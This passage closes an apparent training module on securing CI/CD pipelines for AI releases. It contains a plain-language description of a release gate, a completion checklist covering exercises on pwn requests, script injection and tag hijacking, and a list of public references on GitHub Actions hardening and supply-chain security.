"Before any new version of our AI goes live, an automatic checkpoint checks the paperwork: is this exactly the model we tested, did it pass our security tests, do we have the rights to use it and its data, and did it come from a source we trust? If any answer is 'no' or 'we don't know', it doesn't ship. That turns 'we think it's fine' into proof we can show auditors and customers."
</details>

---

## 8. Checklist (definition of done)

- [ ] I can explain pwn requests, script injection, tag hijacking and OIDC subject checks without notes.
- [ ] `python -m pytest 06-ai-devsecops/cicd` passes.
- [ ] I ran Step 4 and saw the Module 02 suite feed the release gate.
- [ ] I did the five "break it yourself" steps (and reverted step 4).
- [ ] Optional: I ran zizmor or actionlint on the vulnerable workflows.
- [ ] Week 24 journal entry: my release gate policy (which suites, which thresholds, who can grant exceptions).

## 9. References

- GitHub Docs, *Security hardening for GitHub Actions*: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions
- GitHub Security Lab, *Keeping your GitHub Actions and workflows secure* series (pwn requests, untrusted input): https://securitylab.github.com/
- OWASP Top 10 CI/CD Security Risks: https://owasp.org/www-project-top-10-ci-cd-security-risks/
- SLSA specification: https://slsa.dev/spec/
- Sigstore / cosign: https://docs.sigstore.dev/
- CycloneDX, *Machine Learning Bill of Materials (ML-BOM)*: https://cyclonedx.org/capabilities/mlbom/
- NIST SP 800-218 (SSDF) and SP 800-218A (generative AI profile): https://csrc.nist.gov/pubs/sp/800/218/final · https://csrc.nist.gov/pubs/sp/800/218/a/final
- CISA alert on `tj-actions/changed-files` (CVE-2025-30066), March 2025: https://www.cisa.gov/
- Codecov, *Bash Uploader security update* (2021): https://about.codecov.io/security-update/
- John Stawinski, *Playing with Fire: How We Executed a Critical Supply Chain Attack on PyTorch* (2024): https://johnstawinski.com/
- OpenSSF Scorecard: https://securityscorecards.dev/ · zizmor: https://docs.zizmor.sh/ · actionlint: https://github.com/rhysd/actionlint · pip-audit: https://github.com/pypa/pip-audit
